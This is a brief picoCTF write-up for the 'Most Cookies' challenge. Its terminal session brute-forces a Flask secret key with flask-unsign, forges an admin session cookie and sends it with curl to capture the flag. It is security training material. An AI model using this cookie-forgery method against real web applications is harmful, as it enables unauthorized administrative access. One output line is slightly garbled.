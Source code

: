 # Most Cookies
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/26760321c25c9659050a37a707247690/server.py) [http://mercury.picoctf.net:52134/](http://mercury.picoctf.net:52134/)
How secure is a flask cookie?

## Solución
1. Forjar una nueva cookie
2. Tomar el valor de la cookie
```
┌──(kali㉿kali)-[~/Documents/srss/WebExplotation]
└─$ wget 'https://mercury.picoctf.net/static/26760321c25c9659050a37a707247690/server.py'             
--2025-04-02 15:59:03--  https://mercury.picoctf.net/static/26760321c25c9659050a37a707247690/server.py
Resolving mercury.picoctf.net (mercury.picoctf.net)... 18.189.209.142
Connecting to mercury.picoctf.net (mercury.picoctf.net)|18.189.209.142|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2021 (2.0K) [application/octet-stream]
Saving to: ‘server.py’

server.py                                 100%[===================================================================================>]   1.97K  --.-KB/s    in 0s      

2025-04-02 15:59:04 (20.5 MB/s) - ‘server.py’ saved [2021/2021]
┌──(.venv)─(kali㉿kali)-[~/Documents/srss/WebExplotation]
└─$ flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.Z-23oQ.pLGjs66mRYYV80tiqtDxyxZAHAo" --wordlist cookies.txt 
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'peanut butter'

┌──(.venv)─(kali㉿kali)-[~/Documents/srss/WebExplotation]
└─$ flask-unsign --sign --cookie "{'very_auth':'admin'}" --secret "peanut butter"                                   
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z-26Tg.uPO3S97P_Tp_qmn6T_8EFEWe8v0
                                                                                                                                                                      
┌──(.venv)─(kali㉿kali)-[~/Documents/srss/WebExplotation]
└─$ curl -s http://mercury.picoctf.net:52134/display -H "Cookie: session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z-26Tg.uPO3S97P_Tp_qmn6T_8EFEWe8v0" | grep pico
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{pwn_4ll_th3_cook1E5_478da04c}</code></p>
```
